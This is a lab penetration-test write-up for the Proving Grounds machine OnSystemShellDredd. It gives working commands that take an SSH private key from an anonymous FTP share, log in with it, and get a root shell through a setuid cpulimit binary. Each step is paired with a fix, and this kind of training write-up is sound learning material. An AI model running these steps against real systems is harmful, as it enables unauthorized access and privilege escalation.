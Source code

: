 # Penetration Test Report for Proving Grounds - OnSystemShellDredd
- **Author:** Joey Melo
- **Date:** March 20, 2022
- **Client:** Proving Grounds
- **Host:** 192.168.189.130 OnSystemShellDredd

## Disclaimer
The following report is the solution of a challenge in a learning platform that has no association whatsoever with the author. Please consider this report as a rough simulation of what a real pentesting report looks like. Attempting to use the methodologies demonstrated in this report in unauthorized networks is ILLEGAL. The author is not responsible for improper use or unauthorized modifications of this information. The author assumes no liability for the use of information disclosed in this report. Any damage or loss that may result from improper use of the information contained in this report is the sole responsibility of the user and not the author. The author recommends safe practices and an ethical standpoint when working with clients and or with tools demonstrated in this report.

## Introduction
This penetration test report contains all efforts that were conducted in order to assess the security of Proving Grounds. This report contains all items that were used to penetrate and gain privileged access to the remote host(s). The purpose of this report is to showcase that the tester has a full understanding of penetration testing methodologies as well as the technical knowledge to perform professional cybersecurity assessments.

## Objectives
The objective of this assessment is to perform an internal penetration test against the OnSystemShellDredd network. The tester is tasked with following a methodical approach in obtaining access to the objective goals. This test should simulate an actual penetration test and how one would start from beginning to end, including the overall report.

## Executive Summary
The tester was tasked with performing an internal penetration test towards the OnSystemShellDredd network. An internal penetration test is a dedicated attack against internally connected systems. The focus of this test is to perform attacks similar to those of a hacker and attempt to infiltrate Proving Grounds's internal lab systems. The tester's overall objective was to evaluate the network, identify systems, and exploit flaws while reporting the findings back to Proving Grounds.
When performing the internal penetration test, there were several alarming vulnerabilities that were identified on the OnSystemShellDredd network. When performing the attacks, the tester was able to gain access to the machine, primarily due to anonymous access enabled in the FTP server, which has an SSH access key in it. The host has been successfully exploited, and privileged access was gained in the machine.

## Recommendations
The tester recommends patching the vulnerabilities identified during the testing to ensure that an attacker cannot exploit these systems in the future. One thing to remember is that these systems require frequent patching and, once patched, should remain on a regular patch program to protect additional vulnerabilities that are discovered at a later date.

# Assessment
## Service Enumeration
### Port Scan Results
- **TCP:** 21, 61000 (SSH)

![SSH running on port 61000](https://imgur.com/RWCHns7.png)

## Initial Access
### Vulnerability Explanation
The FTP service has anonymous access enabled, which is serving an SSH host key for a local user.
### Vulnerability Fix
Disable anonymous access in the FTP service.
### Attack Walkthrough

After service enumeration, the tester verified that the FTP service had anonymous access enabled, which contained an SSH key for the user *hannah*
```bash
ftp anonymous@192.168.189.130                           
```

![SSH key obtained through anonymous access in FTP server](https://imgur.com/FIBr1pQ.png)

As proof of exploitation, the tester captured the *local.txt* flag.

![User flag](https://imgur.com/1hYhTzU.png)

## Privilege Escalation
### Vulnerability Explanation
The remote host has the setuid bit enabled for the *cpulimit* binary, which can be abused for privilege escalation.
### Vulnerability Fix
Remove the setuid bit from the *cpulimit*
### Attack Walkthrough
After establishing a foothold on the target, the tester enumerated all binaries in the system with the setuid bit. It was then verified that the binary *cpulimit* had the SUID permission enabled, which was exploited to obtain a high-privileged access to the system. 
```bash
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null > suids.txt
cat suids.txt
cpulimit -l 100 -f -- /bin/sh -p
```

![*cpulimit* with setuid bit](https://imgur.com/aCvySTo.png)

## Post-Exploitation
As proof of post-exploitation, the tester captured the *proof.txt* flag.

![Root flag](https://imgur.com/Wfn8aBb.png)

# Appendix A: Commands Issued
```bash
# Enumeration
sudo nmap -sC -sV -oN tcp_ports.nmap -p- 192.168.189.130

# FTP access
ftp anonymous@192.168.189.130                           
ftp> ls -la
ftp> cd .hannah
ftp> ls -la
ftp> get id_rsa
ftp> exit

# Exploit
chmod 600 id_rsa
ssh -i id_rsa  hannah@192.168.189.130 -p 61000

# Initial Access
ls -la
cat local.txt
ip a s

# Privilege Escalation
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null > suids.txt # find suid bits
cat suids.txt
cpulimit -l 100 -f -- /bin/sh -p

# Post-Exploitation
id
cd /root
cat proof.txt
ip a s
```
